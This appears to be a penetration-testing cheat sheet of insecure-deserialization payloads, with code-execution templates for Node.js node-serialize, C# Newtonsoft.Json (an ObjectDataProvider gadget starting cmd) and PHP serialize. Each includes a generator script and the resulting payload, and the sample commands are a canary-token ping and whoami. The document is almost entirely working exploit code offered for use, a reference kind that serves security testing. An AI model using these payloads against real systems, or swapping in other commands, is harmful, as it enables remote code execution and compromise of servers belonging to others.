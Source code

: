 # Object Deserialization
## Node.JS - node-serialize
Payload Generator:
```sh
let y = {
  rce: function() {
    require('child_process').exec('ping XXXXXXXXX.canarytokens.com', function(error, stdout, stderr) { console.log(stdout); });
  },
};

let serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```
Run:
```sh
node serialize.js

# You should add IIFE brackets "()" at the end of output. 
```

Payload:
```sh
{"rce":"_$$ND_FUNC$$_function() {require('child_process').exec('ping XXXXXXXXX.canarytokens.com', (error, stdout, stderr) => { console.log(stdout); }); } ()"}
```
#####

## C# - Newtonsoft
```sh
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', 'ping -n 3   XXXXXXXXX.canarytokens.com']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```
#####

## PHP - serialize
Payload Generator:
```sh
<?php

class Example2
{  
   private $hook = "system('whoami');";
}

print(urlencode(serialize(new Example2)) . "\n\n");
print((serialize(new Example2)) . "\n");

?>
```
Run:
```sh
php serialize.php
```

Payload:
```sh
O%3A8%3A%22Example2%22%3A1%3A%7Bs%3A14%3A%22%00Example2%00hook%22%3Bs%3A17%3A%22system%28%27whoami%27%29%3B%22%3B%7D

O:8:"Example2":1:{s:14:"Example2hook";s:17:"system('whoami');";} 
```
#####

